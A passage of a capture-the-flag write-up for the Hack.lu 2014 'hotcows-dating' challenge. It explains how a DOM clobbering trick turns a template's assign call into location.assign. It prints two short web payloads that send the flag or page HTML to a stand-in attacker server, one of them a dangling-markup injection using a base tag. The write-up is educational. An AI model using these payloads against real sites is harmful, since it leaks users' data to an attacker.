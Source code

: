 `temp.assign` is supposed to refer to [the custom `Template.prototype.assign` method as defined in `js/template.js`](https://github.com/ctfs/write-ups/blob/master/hack-lu-ctf-2014/hotcows-dating/source/js/template.js#L9-L14), but because `temp` is now a reference to `location`, it’s actually [`location.assign`](https://html.spec.whatwg.org/multipage/browsers.html#dom-location-assign).

Note that thanks to our DOM clobbering attack, the call to [`page.appendMessage`](https://github.com/ctfs/write-ups/blob/382aa45be715459a132d44d160358845110e0e73/hack-lu-ctf-2014/hotcows-dating/source/js/pages/chat.js#L104-L111) throws an exception, since it attempts to use `document.getElementById`. As a result, the rest of the code in `page.firstMessage` is never executed. This leaves the following code:

```js
temp.assign('system', 'class');
temp.assign('In chat with', 'name')
message = cow_name + ((has_premium) ? ' (' + premium_id + ')' : '');
temp.assign(message, 'msg');
page.appendMessage(temp); // ← This throws an exception.
// The code below is never reached.
```

Another thing to keep in mind is that browsers batch successive calls to `location.assign` together. For example, this HTML document redirects you to `https://example.com/?q=b` and not `https://example.com/?q=a`:

```html
<script>
  location.assign('https://example.com/?q=a');
  location.assign('https://example.com/?q=b');
</script>
```

Similarly, only the last `temp.assign` call is effective:

```js
temp.assign(message, 'msg');
```

That’s good news, because it contains the flag! Now you know why/how that ‘exploit’ we showed you earlier works. Here it is one more time:

```
https://our-server.example.com/<form name=getElementById></form>
```

Isn’t it beautiful?

### Alternative, unintended solution

Another way to solve the challenge was to use a subtle form of a [dangling markup injection attack](http://lcamtuf.coredump.cx/postxss/#dangling-markup-injection) using a `<base>` tag to leak part of the HTML to a server under our control:

```
<base href=https://our-server.example.com/>
```

The challenge author confirmed on IRC that this is not the intended solution, although it is a very nice bypass. This exploit works because it uses a chain of lucky events:
